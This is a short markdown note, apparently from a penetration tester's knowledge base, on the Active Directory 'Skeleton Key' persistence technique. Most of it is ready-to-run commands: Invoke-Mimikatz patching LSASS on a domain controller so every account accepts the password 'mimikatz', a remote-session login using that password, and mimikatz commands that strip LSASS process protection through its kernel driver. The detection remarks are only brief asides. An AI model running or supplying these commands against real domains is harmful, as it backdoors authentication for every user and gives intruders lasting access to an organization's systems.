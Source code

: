 ```yaml
---
tags:
  - persistence
cssclasses:
  - MimiKatz
  - LSASS
---
```

- Patches the DC's LSASS process so that it allows access as any user with a single password.
- Publicly knows methods are not persistent across reboots.

```powershell title:"Inject a skeleton key (with password "mimikatz") on a Domain Controller"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName domain-controller-fqdn
```

```powershell title:"Access any machine with a valid username and password as "mimikatz" after injecting skeleton key"
Enter-PSSession -ComputerName domain-controller -credential domain\Administrator
```

In case LSASS is running as a protected process, we can still use Skeleton key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:

```batch title:"Run these mimikatz commands on the DC" 
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
```

- Very noisy logs - Service installation (Kernel mode driver)
- Might cause issues with [[AD CS]]



